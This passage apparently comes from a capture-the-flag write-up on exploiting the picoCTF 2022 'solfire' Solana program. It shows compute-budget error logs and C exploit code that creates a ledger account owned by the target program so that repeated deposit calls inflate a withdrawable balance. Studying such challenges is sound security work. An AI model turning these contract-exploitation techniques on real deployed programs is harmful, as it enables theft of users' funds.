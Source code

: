 **Aha! We started with 10 lamports and now have 18! Victory is within our grasp!**
> **Narrator**: *Or is it?*

## Problems, Problems, Problems

Unfortunately, this is about when our luck runs out. Since you only have 9 lamports, you can't transfer more than that to yourself. You can keep calling deposit to rack up the amount you can withdraw, but it doesn't take long before you start seeing something like the following in your error logs:

```
    Program log: Solfire start
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da consumed 17258 of 17258 compute units
    Program failed to complete: exceeded maximum number of instructions allowed (17258) at instruction #1131
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da failed: Program failed to complete
    Program 5HXGNZ1WizZFrqWHSd6xWSSnVBwVHBHBYVnfRHuDJj55 consumed 200000 of 200000 compute units
    Program 5HXGNZ1WizZFrqWHSd6xWSSnVBwVHBHBYVnfRHuDJj55 failed: Program failed to complete
```
{:.contains-term}

The key part being `"consumed 200000 of 200000 compute units"`. Apparently, there is an upper-limit on the number of computations a given instruction/transaction is allowed. There are some mechanisms to bump this number up slightly, but they are required to be entered into the transaction directly and not executed as a cross-program invocation. The main problem here is that every call to `solfire` is incredibly expensive - consuming over 20% of our total budget. As pointed out in [Part I]({% link _reference/hacking-101/picoctf-2022-greatest-hits/solfire.md %}) - this is likely due to the use of b58encode inside the contract itself.

## A path forward

In trying desperately to find ways to either increase the compute budget or reduce the costs of computing, we come to the realization that calling `handle_create` is not actually necessary! The requirements for the ledger account are simply that the account is owned by the `solfire` program. We can actually just call `CreateAccount` ourselves and specify `solfire` as the owner. This saves us a whole call into the `solfire` entrypoint!

```c
void solfire_create(SolParameters *params, uint8_t ledger_nonce)
{
  sol_log("crEate!");
  
  const SolSignerSeed seed = {&ledger_nonce, 1};
  const SolSignerSeeds signers_seeds = {&seed, 1};

  SolAccountMeta meta[] = {
    {params->ka[USER].key /* user */, true, true},
    {params->ka[LEDGER].key /* ledger */, true, true}
  };
  uint8_t buf[0x34] = {0};
  buf[0] = 0; //[0-4] code
  buf[4] = 0x0; //[4-12] lamports to transfer
  buf[12] = 0x00; //[12-20] SIZE TO ALLOCATE!
  buf[13] = 0x28; // 0x2800 in little endian - same as handle_create
  // SET OWNER TO BE SOLFIRE PROGRAM - THIS IS REQUIRED FOR EXPLOIT TO WORK
  sol_memcpy(&buf[20], params->ka[SOLFIRE].key /* program */, 32); //[20-52] new owner

  const SolInstruction instruction = {params->ka[SYSTEM].key /* system */,
                                      meta, SOL_ARRAY_SIZE(meta),
                                      buf,  SOL_ARRAY_SIZE(buf)};

  sol_invoke_signed(&instruction, params->ka, params->ka_num, &signers_seeds, 1);
}
```
